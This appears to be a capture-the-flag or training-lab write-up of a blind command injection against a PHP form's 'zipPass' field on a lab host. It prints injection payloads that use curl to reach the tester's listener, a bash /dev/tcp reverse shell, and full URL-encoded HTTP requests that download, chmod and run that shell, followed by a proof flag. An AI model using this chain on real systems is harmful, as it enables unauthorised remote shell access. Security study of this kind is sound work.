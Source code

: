 
#### Initial identification of vulnerable fields.
After reaching `local.txt` flag you are presented with this field, when you check the `Password Protect this Zip File` a new field is provided named `Password`
![[Pasted image 20241111194813.png]]

when submitting `test` in all the fields the `Burpsuite` request looks like this:
![[Pasted image 20241111194949.png]]
we can see the 3 fields `submissionData`, `passCheck`, and `zipPass`

---------

#### Command Injection
we then begin testing to see if `Command injection` is a vector, however utilizing a basic payload didnt work.
```bash
curl http://192.168.45.222:8000/test.txt
```
submitted in the password field
![[Pasted image 20241111195645.png]]
`200` error but nothing happened in my `python3` listener
![[Pasted image 20241111195718.png]]
going down the list below of [[11.2 - 11.2.4 Dealing with Common Protections]] weend up getting the `$` one to work.
`$(curl http://192.168.45.222:8000/test.txt)`
```bash
||curl http://192.168.45.222:8000/test.txt
;curl http://192.168.45.222:8000/test.txt
|curl http://192.168.45.222:8000/test.txt
&&curl http://192.168.45.222:8000/test.txt
`curl http://192.168.45.222:8000/test.txt`
$(curl http://192.168.45.222:8000/test.txt)
```
So the `Common Protections` worked
![[Pasted image 20241111195849.png]]
now since we know we are able to get `Blind Command Injection` lets try to get a reverse shell.


revshell creation:
```bash
┌──(root💀gobots)-[11Nov2024 22:17:11]-[/home/kali/SUT/OSWA]
└─# cat revshell        
bash -i >& /dev/tcp/192.168.45.222/4444 0>&1

```
utilizing the vulnerable parameter to upload `revshell` - make sure to `CTRL+U` to encode 
```bash
$(curl -o /tmp/revshell http://192.168.45.222:8000/revshell)
```
full payload with URL encoding:
```http
POST /personnelSubmission/index.php HTTP/1.1
Host: bubo
Content-Length: 132
Cache-Control: max-age=0
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
Origin: http://bubo
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://bubo/personnelSubmission/index.php
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

submissionData=Data+goes+here.&passCheck=on&zipPass=%24%28curl+-o+%2Ftmp%2Frevshell+http%3A%2F%2F192.168.45.222%3A8000%2Frevshell%29
```
![[Pasted image 20241111200257.png]]
showing that the `revshell` was succesfully pulled over 
![[Pasted image 20241111201330.png]]
changing permissions to `executable`
```bash
$(chmod +x /tmp/revshell)
```
full payload with URL encoding:
```http
POST /personnelSubmission/index.php HTTP/1.1
Host: bubo
Content-Length: 89
Cache-Control: max-age=0
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
Origin: http://bubo
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://bubo/personnelSubmission/index.php
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

submissionData=Data+goes+here.&passCheck=on&zipPass=%24%28chmod+%2Bx+%2Ftmp%2Frevshell%29
```
![[Pasted image 20241111201254.png]]
setting up a `nc` listener to catch a reverse shell
![[Pasted image 20241111201508.png]]
executing reverse shell
```bash
$(/bin/bash /tmp/revshell)
```
Full encoded payload:
```http
POST /personnelSubmission/index.php HTTP/1.1
Host: bubo
Content-Length: 92
Cache-Control: max-age=0
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
Origin: http://bubo
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://bubo/personnelSubmission/index.php
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

submissionData=Data+goes+here.&passCheck=on&zipPass=%24%28%2Fbin%2Fbash+%2Ftmp%2Frevshell%29
```
![[Pasted image 20241111201611.png]]

#### Proof.txt 
`e83e084c2bcb87c9b64480858edd7f75`
![[Pasted image 20241111201727.png]]